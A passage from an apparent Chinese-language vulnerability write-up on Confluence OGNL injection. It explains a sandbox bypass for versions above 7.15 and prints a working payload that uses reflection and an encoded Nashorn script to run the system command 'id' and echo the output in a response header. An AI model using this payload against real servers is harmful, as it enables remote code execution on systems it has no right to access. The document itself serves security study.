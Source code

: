 value的值变成了4*4的值为16，说明触发了ognl表达式

# 沙盒绕过

在 confluence > 7.15 的时候，增加了沙箱，分别做了一些黑名单和白名单处理，但是可以通过反射 + js 引擎绕过

下面是p牛的payload

```java
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```

## 

# 写在最后

这次漏洞主要是对解析过程的一次了解，另外学到了ognl表达式这种可以通过设置响应头来回显



参考链接

https://paper.seebug.org/1912/#_2

https://www.anquanke.com/post/id/274026#h2-4

https://blog.csdn.net/wanzt123/article/details/125156260
